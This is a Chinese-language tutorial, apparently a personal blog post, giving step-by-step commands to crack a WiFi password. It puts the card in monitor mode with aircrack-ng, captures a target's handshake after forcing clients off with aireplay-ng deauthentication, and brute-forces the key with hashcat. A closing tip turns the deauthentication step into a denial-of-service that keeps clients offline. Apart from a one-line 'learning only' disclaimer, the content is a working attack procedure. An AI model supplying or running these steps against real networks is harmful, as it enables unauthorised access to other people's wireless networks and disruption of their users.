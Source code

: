 ```yaml
---
title: 破解WIFI密码学习
description: 破解WIFI密码学习
date: 2025.04.04
tags: 
  - WIFI
  - Kali
  - Aircrack
categories: 
  - Aircrack
---
```


# 破解WIFI密码学习

## 前言

需要自备无线网卡

此文章仅用于学习使用

## 准备

一个Linux系统(VMware Kali最好)

无线网卡带监听发包的(最好支持5G HZ的，免驱或kali有的驱动的最好)

## 安装aircrack-ng

`sudo apt-get install aircrack-ng`

## 步骤

0. 将网卡连接到VMware中
1.`ifconfig -a`看有没有wlan0（即无线网卡）
2.`airmon-ng start wlan0`启动监听服务

3.`ifconfig -a`看当前无线网卡名称是wlan0还是wlan0mon(有些网卡会在这时候变成wlan0mon，如果变了那么下面的wlan0就写wlan0mon)
4.`airodump-ng wlan0/wlan0mon` 扫描wifi，记录目标的BSSID和CH(信道) ![image](../public/image-20250404191250-b5e8thw.png)
5. `airodump-ng -w 保存握手包的文件名 -c 信道(CH) --bssid D6:93:51:05:7A:5C wlan0/wlan0mon`
    例如:`airodump-ng -w test -c 1 --bssid D6:93:51:05:7A:5C wlan0`

    记录下面两个数据，第一个是路由器地址(和上一步的一样)，第二个是客户端地址

    ![image](../public/image-20250404192722-gwvrdvz.png)

    Tips:按<Space>暂停/继续,后方便复制
6. 新开一个终端，上面那个不要暂停

    `aireplay-ng -0 2 -a D6:93:51:05:7A:5C -c CC:5E:F8:01:5E:0F wlan0/wlan0mon`

    `-0`攻击次数，`-a`路由器地址，`-c`客户端地址(步骤5中记录的)

    可以多攻击几次，让目标设备重连网络，获取握手包
7. 看之前的终端，出现handshake则成功

    ![image](../public/image-20250404193110-umugp3h.png)
8. 转换成`hccapx`格式

    `hcxpcapngtool -o 输出文件名.hccapx 握手包名.cap`

    例如:`hcxpcapngtool -o output.hccapx test-01.cap`
9. hashcat 爆破

    `hashcat -m 22000 output.hccapx 字典文件`

    如果确定纯数字几位的话可以

    `hashcat -m 22000 output.hccapx -a 3 ?d?d?d?d?d?d?d?d`

    几个`?d`就是几位数字


## 注意到

第6步用于`让目标设备重连网络`，也就是攻击设备使设备断网

因此也就可以`aireplay-ng -0 1000 -a D6:93:51:05:7A:5C -c CC:5E:F8:01:5E:0F wlan0/wlan0mon`将攻击次数放大，做到无法让客户端连网的效果


